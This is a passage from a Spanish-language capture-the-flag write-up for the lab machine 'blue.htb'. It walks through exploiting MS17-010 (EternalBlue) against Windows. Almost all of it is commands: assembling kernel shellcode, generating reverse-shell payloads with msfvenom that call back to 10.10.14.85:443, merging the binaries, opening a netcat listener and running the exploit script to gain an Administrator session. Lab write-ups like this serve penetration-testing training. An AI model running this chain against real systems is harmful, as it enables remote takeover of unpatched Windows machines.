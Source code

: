 ### x86

```console
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
```

Una vez realizado esto tendremos que generar un payload con msfvenom:

### x64
```console
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=10.10.14.85 --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### x86

```console
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=10.10.14.85 --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

Una vez realizado esto, crearemos un solo binario para **x64** y **x86**:

### x64

```console
cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```

### x86

```console
cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin
```

Una vez esto dentro de la carpeta shellcode hay un script para generar un solo binario en vez de tener 2, para esto ejecutaremos lo siguiente:

```console
python2 MS17-010/shellcode/eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```

Una vez creado esto, ahora procederemo a explotarlo, para esto, primero tendremos que abrir netcat en el puerto que especificamos:

```console
nc -lvnp 443
```

Y ejecutaremos el exploit:

```console
python2 MS17-010/eternalblue_exploit7.py blue.htb sc_all.bin
```

Como observamos en la siguiente imágen podemos observar que obtenemos una sesión como Administrator.
